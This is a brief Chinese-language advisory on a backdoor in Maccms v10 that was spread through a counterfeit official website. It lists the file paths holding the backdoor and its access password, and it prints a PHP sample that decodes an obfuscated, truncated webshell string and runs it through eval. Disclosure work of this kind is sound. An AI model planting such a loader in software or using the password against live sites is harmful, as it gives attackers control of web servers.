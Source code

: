 Maccms后门
==========

一、漏洞简介
------------

有人假冒苹果cms官网，发布带有后门的程序。

二、漏洞影响
------------

version v10

三、复现过程
------------

### 后门文件路径

maccms10\\extend\\upyun\\src\\Upyun\\Api\\Format.php

maccms10\\extend\\Qcloud\\Sms\\Sms.php

密码 WorldFilledWithLove

### 后门样本

    <?php
    error_reporting(E_ERROR);
    @ini_set('display_errors','Off');
    @ini_set('max_execution_time',20000);
    @ini_set('memory_limit','256M');
    header("content-Type: text/html; charset=utf-8");
    $password = "0d41c75e2ab34a3740834cdd7e066d90";
    function s(){
     $str = "66756r6374696s6r207374…………"; //大马
     $str = str_rot13($str);
     m($str);
    }
    function m($str){
     global $password;
     $jj = '';
     eval($jj.pack('H*',$str).$jj);
    }
    s();
    ?>

image
